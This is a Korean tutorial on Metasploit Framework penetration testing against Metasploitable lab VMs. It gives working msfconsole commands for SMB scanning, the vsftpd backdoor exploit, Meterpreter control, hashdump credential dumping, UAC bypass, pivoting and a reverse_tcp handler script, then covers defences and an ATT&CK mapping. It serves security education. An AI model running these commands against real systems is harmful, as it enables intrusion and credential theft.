

## 1. 개요

**Metasploit Framework (MSF)**는 전 세계에서 가장 널리 사용되는 오픈소스 모의 해킹 플랫폼이다.
취약점 스캔부터 익스플로잇(Exploit) 실행, 페이로드 전송, 그리고 시스템 장악 후의 작업(Post-Exploitation)까지 해킹의 모든 단계를 하나의 통합된 인터페이스(`msfconsole`)에서 수행할 수 있다.
본 글에서는 MSF의 핵심 모듈 구조를 이해하고, 정보 수집부터 실제 시스템 침투 및 제어까지의 공격 흐름을 실습한다.

---

## 2. 공격 워크플로우



---

## 3. 핵심 모듈 구조

*   **Exploits (익스플로잇)**: 특정 취약점을 공격하여 시스템에 침투하는 코드이다. (예: `windows/smb/ms17_010_eternalblue`)
*   **Payloads (페이로드)**: 공격 성공 후 대상 시스템에서 실행될 악성 코드이다. 쉘 연결(`reverse_tcp`), 미터프리터(`meterpreter`) 등이 있다.
*   **Auxiliary (보조 모듈)**: 공격 외의 보조 기능(스캔, 퍼징, 정보 수집)을 수행한다. (예: `scanner/smb/smb_version`)
*   **Post (포스트)**: 시스템 장악 후 정보를 수집하거나 권한을 유지하는 데 사용된다.
*   **Encoders (인코더)**: 페이로드를 난독화하여 백신(AV) 탐지를 우회하는 데 도움을 준다.

---

## 3. 기본 사용법

모든 작업은 `msfconsole`에서 이루어지며, 표준적인 작업 흐름은 다음과 같다.

1.  **`search [keyword]`**: 공격할 대상 서비스나 취약점(CVE) 관련 모듈을 검색한다.
2.  **`use [module]`**: 사용할 모듈을 선택한다.
3.  **`show options`**: 설정해야 할 옵션을 확인한다.
4.  **`set [OPTION] [VALUE]`**: 필수 옵션(`RHOSTS`, `LHOST` 등)을 설정한다.
5.  **`run`** 또는 **`exploit`**: 공격을 실행한다.

---

## 4. 공격 실습: 정보 수집

공격 전 대상 시스템의 정보를 파악하기 위해 `Auxiliary` 모듈을 사용한다. 예를 들어 SMB 서비스의 버전을 스캔한다.

```bash
# 1. 모듈 선택
msf6 > use auxiliary/scanner/smb/smb_version

# 2. 대상 IP 설정
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.56.101

# 3. 스캔 실행
msf6 auxiliary(...) > run
```

**결과**: 대상 OS 버전(`Windows 2008 R2`)을 식별하여 이후 적절한 익스플로잇을 선택할 수 있다.

---

## 5. 공격 실습: vsftpd 백도어

Metasploitable 2의 `vsftpd 2.3.4` 백도어 취약점을 이용한 공격 실습이다.

```bash
# 1. 모듈 선택
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor

# 2. 대상 IP 설정
msf6 exploit(...) > set RHOSTS 192.168.56.101

# 3. 공격 실행
msf6 exploit(...) > exploit
```

공격이 성공하면 `root` 권한의 쉘 세션이 열리며, 시스템을 제어할 수 있게 된다.

---

## 6. 공격 실습: Meterpreter

**Meterpreter**는 디스크에 파일을 쓰지 않고 메모리 상에서만 동작하는 강력한 페이로드이다. 이를 통해 스크린샷 캡처, 키로깅, 파일 탈취 등 고도화된 작업을 수행할 수 있다.

#### 주요 명령어
*   `sysinfo`: 시스템 정보 확인
*   `getuid`: 현재 권한 확인
*   `ps`: 실행 중인 프로세스 목록 확인
*   `migrate [PID]`: 탐지를 피하기 위해 `explorer.exe` 등 정상 프로세스로 세션을 이동
*   `screenshot`: 현재 화면 캡처
*   `download [Src] [Dst]`: 파일 다운로드

이처럼 Meterpreter는 단순 쉘보다 훨씬 강력하고 은밀한 제어 기능을 제공한다.

---

## 7. Post-Exploitation

시스템 장악 후 정보 수집, 권한 상승, 내부 네트워크 확장(Pivoting)을 위한 고급 기법이다.

### Post 모듈 활용
Meterpreter 세션 획득 후 추가 정보를 자동으로 수집하는 모듈이다.
```bash
# Windows 시스템 정보 수집
meterpreter > run post/windows/gather/enum_logged_on_users
meterpreter > run post/windows/gather/enum_applications

# 해시 덤프 (권한 상승 후)
meterpreter > run post/windows/gather/hashdump

# Linux 정보 수집
meterpreter > run post/linux/gather/enum_users_history
```

### 권한 상승 (Privilege Escalation)
```bash
# 로컬 취약점 자동 탐색
msf6 > use post/multi/recon/local_exploit_suggester
msf6 > set SESSION 1
msf6 > run

# UAC 우회 (Windows)
msf6 > use exploit/windows/local/bypassuac
msf6 > set SESSION 1
msf6 > run
```

### Pivoting (내부망 확장)
장악한 시스템을 통해 외부에서 접근 불가능한 내부 네트워크를 공격한다.
```bash
# 1. 라우트 추가 (장악한 세션을 통해 내부망 접근)
meterpreter > run autoroute -s 192.168.1.0/24

# 2. 내부 호스트 스캔
msf6 > use auxiliary/scanner/portscan/tcp
msf6 > set RHOSTS 192.168.1.0/24
msf6 > run

# 3. SOCKS 프록시로 외부 도구 연결
msf6 > use auxiliary/server/socks_proxy
msf6 > run
# proxychains nmap -sT 192.168.1.10
```

### Resource Script (자동화)
반복적인 작업을 스크립트로 저장하여 자동 실행한다.
```bash
# 스크립트 파일 (attack.rc)
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.0.0.32
set LPORT 4444
run

# 실행
msfconsole -r attack.rc
```

---

## 8. 방어 대책

### 탐지 방법
*   **IDS/IPS 시그니처**: Snort, Suricata에서 Metasploit 페이로드 패턴 탐지
*   **EDR 모니터링**: 프로세스 인젝션, 메모리 조작 행위 탐지
*   **네트워크 트래픽 분석**: 비정상적인 Outbound 연결 (C2 통신) 탐지

### 방어 방법
*   **패치 관리**: 알려진 취약점(CVE) 신속 패치
*   **네트워크 세그멘테이션**: 중요 자산 분리
*   **최소 권한 원칙**: 서비스 계정 권한 제한
*   **Application Whitelisting**: 허용된 프로그램만 실행

---

## 9. 실습 환경

### Metasploitable 2
```bash
# VirtualBox에서 취약한 VM 실행
# https://sourceforge.net/projects/metasploitable/
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.101
exploit
```

### Metasploitable 3
```bash
# Vagrant로 Windows/Linux 취약 환경 구축
# https://github.com/rapid7/metasploitable3
vagrant up
```

### Docker 기반
```bash
docker run -it --rm tleemcjr/metasploitable2
```

---

## MITRE ATT&CK 매핑

| Metasploit 기능 | ATT&CK 기법 | ID | 단계 |
|----------------|------------|-----|------|
| Exploit 모듈 | Exploitation of Public-Facing Application | T1190 | Initial Access |
| Meterpreter Reverse Shell | Command and Scripting Interpreter | T1059 | Execution |
| `hashdump` | OS Credential Dumping | T1003 | Credential Access |
| `migrate` | Process Injection | T1055 | Defense Evasion |
| `autoroute` | Network Tunneling | T1572 | Command and Control |
| Post 모듈 (enum_*) | Account Discovery / System Information Discovery | T1087 / T1082 | Discovery |
| `bypassuac` | Abuse Elevation Control Mechanism: Bypass UAC | T1548.002 | Privilege Escalation |

<hr class="short-rule">